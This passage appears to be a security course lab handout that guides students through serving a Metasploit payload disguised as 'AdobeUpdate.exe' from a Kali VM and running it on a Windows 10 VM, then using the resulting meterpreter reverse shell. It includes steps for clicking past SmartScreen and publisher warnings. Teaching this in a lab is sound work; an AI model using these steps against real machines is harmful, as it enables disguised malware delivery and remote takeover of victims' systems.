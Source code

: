         <div class='alert alert-info' markdown='1'>
        The `-j` option jobifies the exploit, or runs it as a job in the background. You can see a list of jobs running in the background by using the command jobs.
        </div>    
        
        <div class='alert alert-info' markdown='1'>
        Because <code>ExitOnSession</code> is set to <code>True</code> (the default for `exploit/multi/handler`; verify with `show advanced` from msfconsole), your handler will die after it gets one connection.
        </div>
    
7.	Now, set up a web server to host your malicious file. 
    8.  Change directories to `/tmp` by entering `cd /tmp` in a kali terminal.
    8.	See that the payload you generated earlier is in this directory: `ls`
    9.  Now, from that directory, run this command:

            python -m SimpleHTTPServer 8888
            
        This will start a web server on your kali instance, serving content from the current directory (`/tmp`).
        
    9.	On your Windows 10 VM, browse to: 

            http://[IP of your Kali VM]:8888/

        Verify that you can view the contents of `/tmp` on your Kali VM.

    
16.	On your Windows 10 VM, in a web browser, download the malicious `AdobeUpdate.exe` file from the Python webserver and run the executable. 
    * If you use Edge/IE browser, download it, click "view downloads", right-click AdobeUpdate.exe, select "Run anyway"
    * If a warning appears saying that Windows couldn’t access Windows SmartScreen, "more info", then click “Run anyway.” 
    * For the warning, “Do you want to allow this app from an unknown publisher…,” click “Yes.”
    
17.	On your Kali VM, you should see in your msfconsole that “Command shell session `X` opened,” where X is the number of the new session. Type:

        sessions -i [the number of the new session]

    This should open a connection to a meterpreter on the Windows VM.
    
17. Run `shell` to drop down into a windows cmd prompt
    18.	Type `whoami` to see the privileges that you are running under. Note that these are the privileges of the user of your Windows 10 VM.
    19.	Run the command `netstat -n` to see a listing of open connections on the Windows server. Note the “ESTABLISHED” connection from the Windows VM to your Kali VM.
    20. Return to your meterpreter shell (`exit`, I think).
20. Carry out your nefarious purposes with the victim <i class='fa fa-birthday-cake'></i>


## <span class='label label-success'>Deliverable</span>

Take a screenshot showing the output of running the following commands from your meterpreter session:
    
    pgrep AdobeUpdate.exe
    getpid
    shell
    echo "your first and last name"
    date /t

